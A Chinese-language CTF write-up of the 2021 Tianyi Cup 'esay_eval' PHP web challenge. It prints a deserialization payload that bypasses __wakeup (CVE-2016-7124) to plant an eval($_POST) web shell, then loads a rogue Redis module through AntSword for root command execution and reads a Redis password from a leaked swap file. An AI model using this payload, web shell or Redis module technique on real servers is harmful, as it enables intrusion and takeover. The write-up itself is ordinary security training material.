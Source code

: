 ```yaml
---
title: 天翼杯2021 esay_eval
date: 2022-05-11 20:41:07
toc: false
tags: 
- 反序列化
- RCE
categories: CTF-Web
my: esay_eval
---
```


题目源码：

``` php
<?php
class A{
    public $code = "";
    function __call($method,$args){
        eval($this->code);
        
    }
    function __wakeup(){
        $this->code = "";
    }
}

class B{
    function __destruct(){
        echo $this->a->a();
    }
}
if(isset($_REQUEST['poc'])){
    preg_match_all('/"[BA]":(.*?):/s',$_REQUEST['poc'],$ret);
    if (isset($ret[1])) {
        foreach ($ret[1] as $i) {
            if(intval($i)!==1){
                exit("you want to bypass wakeup ? no !");
            }
        }
        unserialize($_REQUEST['poc']);    
    }


}else{
    highlight_file(__FILE__);
}
```

上来是个简单（bushi）的反序列化拿shell，但是A类里面的`__wakeup()`函数会把我们传进去的`$code`属性置为空，这里我们只需要让`__wakeup()`函数失效，CVE-2016-7124:当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。(也可上b站看[视频学习](https://www.bilibili.com/video/BV1Z54y1U7up?spm_id_from=333.880.my_history.page.click)）

```php
<?php
class a{
	function __construct(){
		$this->code = $code;
	}
}
class B{
	function __construct(){
		$this->a = $a;
	}
}
$a = new a();
$a->code = 'eval($_POST[1]);';
$b = new B();
$b->a = $a;
echo serialize($b);
?>
```

得到了payload：?poc=O:1:"B":1:{s:1:"a";O:1:"a":2:{s:4:"code";s:16:"eval($_POST[1]);";}}直接不犹豫连接蚁剑.当我们以为就此结束可以拿到flag我们点击根目录发现这个shell没有访问权限，但是在/var/www/html中有上传权限，所以可以通过上传恶意的so文件，通过蚁剑的redis管理插件，进行ssrf，然后包含恶意so文件（提供一[下载地址](https://github.com/Dliv3/redis-rogue-server)）

![image.png](https://s2.loli.net/2022/05/11/jnw9QXU8NWF5eK1.png)

**注**：因为插件市场这个东西，国内基本是访问不到，我在用蚁剑访问的时候，就一直转圈圈转不出来，所以可以使用github的插件仓库下载插件，然后手动放到**antSword-master/antData/pulgins**中，再次打开蚁剑后，会自动加载该插件（或者科学上网）

我们上传一个exp.so文件

![image.png](https://s2.loli.net/2022/05/11/hBI54UzwPbXysgo.png)

![image.png](https://s2.loli.net/2022/05/11/39SgHdzWhoZRnEJ.png)

密码是根据/var/www/html中有个config.php.swp文件，其中有密码

![image.png](https://s2.loli.net/2022/05/11/pcECsYOIgrRfPv5.png)

![image.png](https://s2.loli.net/2022/05/11/4w9d3VIzTHDgM1x.png)

然后执行指令

![image.png](https://s2.loli.net/2022/05/11/8CGLhlsyeDYir3N.png)

```
MODULE LOAD /var/www/html/exp.so
system.exec "whoami"
```

这里我们发现是root权限

![image.png](https://s2.loli.net/2022/05/11/lAhN2fa8yWSCPwk.png)

直接看根目录   然后找到flag

```
system.exec "ls /"
system.exec "cat /flag*"
```
